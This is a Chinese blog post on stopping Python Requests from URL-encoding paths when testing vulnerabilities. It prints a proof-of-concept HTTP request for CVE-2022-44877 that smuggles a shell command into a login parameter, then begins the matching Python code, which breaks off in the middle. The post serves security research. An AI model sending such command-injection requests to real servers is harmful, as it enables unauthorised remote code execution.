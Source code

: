```yaml
---
layout: post
title: Python开发技巧——禁用Requests库编码url
---
```



## 0x00 前言
---

我在使用Python Requests库发送HTTP数据包时，发现Requests库默认会对url进行编码。而在测试某些漏洞时，触发漏洞需要url的原始数据，禁用编码url的功能。本文将要介绍我的解决方法，记录研究细节。

## 0x01 简介
---

本文将要介绍以下内容：

- 测试环境
- 解决方法

## 0x02 测试环境
---

我在研究[CVE-2022-44877](https://github.com/numanturle/CVE-2022-44877)时遇到以下情况：

实现写文件的POC如下：

```
POST /login/index.php?login=$(touch${IFS}/tmp/pwned) HTTP/1.1
Host: 10.13.37.10:2031
Cookie: cwpsrv-2dbdc5905576590830494c54c04a1b01=6ahj1a6etv72ut1eaupietdk82
Content-Length: 40
Origin: https://10.13.37.10:2031
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://10.13.37.10:2031/login/index.php?login=failed
Accept-Encoding: gzip, deflate
Accept-Language: en
Connection: close

username=root&password=toor&commit=Login
```

根据POC我们可以写出对应的Python测试代码：

```
    headers = {
        "Cookie": "cwpsrv-7ed373abced7574da1245607e756e862=nfetkn56pkkdbqhht2hpl46bsa",
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36",      
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "en-US,en;q=0.9",
    }

    proxies = {
   'http': 'http://127.0.0.1:8080',
   'https': 'http://127.0.0.1:8080',
```